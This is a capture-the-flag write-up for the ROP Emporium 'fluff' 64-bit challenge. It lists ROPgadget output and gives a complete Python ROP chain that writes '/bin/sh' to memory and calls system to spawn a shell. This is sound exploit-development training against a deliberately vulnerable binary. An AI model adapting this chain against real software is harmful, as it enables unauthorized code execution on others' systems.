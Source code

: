 # fluff - 64 bit

the goal of this challange is very similar to the write4 one.(https://github.com/alal4465/CTF_Writeups/tree/master/ROP%20Emporium%5Bwrite4-64bit%5D)   
      
we need to write a string to memory,    
point rdi at it    
and ute system with the string as a parameter.     

but this time there is no single gadget that allows for arbitrary write.     
looking at the output from ROPgadget (this time using --depth 20 in hope to find some useful gadgets)     
these gadgets seem interesting:    
```
#0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
#0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
#0x00000000004008c3 : pop rdi ; ret
#0x000000000040084d : pop rdi ; mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
#0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
#0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
```
   
using these gadgets, my plan was:
1.empty r11("xor r11, r11")      
2.set r12 to write adress    
3.xor r11 with r12 (r11 is zero so it should set it to r12)      
4.xchg r11 with r10 (r10 now points to dest memory)     
5.empty r11      
6.set r11 to str with those same steps      
7.write r11 to [r10]       
     
after taking care of some unwanted parts of these gadgets    
the ROP chain looks like this:
```python
STR_ADDR=0x006010b0
CALL_SYSTEM=0x004005e0
SET_RDI=0x004008c3
WRITE_MEM=0x0040084d
EMPTY_R11=0x00400822
XOR_R11_R12=0x0040082f
SET_R12=0x00400832
XCHG_R11_R10=0x00400840

def write_str(s,addr,exp):
    #write 8 byte string to memory using creative gadgets
    exp+=p64(EMPTY_R11) # empty r11
    exp+=p64(0x41414141) # garbage r14 value
    exp+=p64(SET_R12) 
    exp+=p64(addr) # set r12 to write adress
    exp+=p64(XOR_R11_R12) # xor r11 r12(0x00 ^ r12 = r12)
    exp+=p64(0x41414141) # garbage r12 value
    exp+=p64(XCHG_R11_R10) # xchg r11, r10
    exp+=p64(0x41414141) # garbage r15 value
    exp+=p64(EMPTY_R11) # xor r11, r11
    exp+=p64(0x41414141) # garbage r14 val
    exp+=p64(SET_R12)
    exp+=s # set R12 to string
    exp+=p64(XOR_R11_R12) # xor r11 r12(0x00 ^ r12 = r12)
    exp+=p64(0x41414141) # garbage
    exp+=p64(WRITE_MEM) # write r11 to [r10] 
    exp+=p64(0x41414141) # garbage rdi val
    exp+=p64(0x41414141) # garbage r13 val
    exp+=p64(0x0) # set r12 to 0 so the xor wont hurt our string
    return exp

exploit=b'A'*40
exploit=write_str(b"/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)

```
